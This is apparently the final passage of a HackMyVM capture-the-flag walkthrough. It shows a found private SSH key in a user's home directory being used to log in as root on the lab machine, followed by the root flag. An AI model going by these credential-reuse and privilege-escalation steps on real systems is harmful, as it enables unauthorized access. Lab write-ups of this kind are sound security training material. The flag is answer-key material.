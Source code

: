 ```
```

`cat ./notes.txt`:
```
Im the shadow admin. Congrats.
```

`ls -alps ./.ssh`:
```
total 16
4 drwx------ 2 primavera primavera 4096 Oct 20  2022 ./
4 drwxr-xr-x 7 primavera primavera 4096 Oct 20  2022 ../
0 -rw------- 1 primavera primavera    0 Oct 20  2022 authorized_keys
4 -rw------- 1 primavera primavera 2602 Oct 20  2022 id_rsa ←
4 -rw-r--r-- 1 primavera primavera  570 Oct 20  2022 id_rsa.pub
```

`ssh -i ./.ssh/id_rsa root@localhost`:
```
Linux bounty 5.10.0-19-amd64 #1 SMP Debian 5.10.149-1 (2022-10-17) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Oct 11 19:34:48 2024 from ::1
```

![Victim: root](https://img.shields.io/badge/Victim-root-64b5f6?logo=linux&logoColor=white)

`whoami`:
```
root ←
```

`id`:
```
uid=0(root) gid=0(root) groups=0(root) ←
```

`cd /root`

`ls -alps`:
```
total 36
4 drwx------  4 root root 4096 Oct 20  2022 ./
4 drwxr-xr-x 18 root root 4096 Oct 20  2022 ../
0 lrwxrwxrwx  1 root root    9 Oct 20  2022 .bash_history -> /dev/null
4 -rw-r--r--  1 root root  571 Apr 10  2021 .bashrc
4 drwxr-xr-x  3 root root 4096 Oct 20  2022 .local/
4 -rw-------  1 root root  317 Oct 20  2022 .mysql_history
4 -rw-r--r--  1 root root  161 Jul  9  2019 .profile
4 -rw-r--r--  1 root root   66 Oct 20  2022 .selected_editor
4 drwx------  2 root root 4096 Oct 20  2022 .ssh/
4 -rw-------  1 root root   16 Oct 20  2022 root.txt ←
```

`cat ./root.txt`:
```
HMVtictictictic ←
```

<img src="https://hackmyvm.eu/img/correctflag.png" alt="Machine Hacked!" width="150"/>

---
---
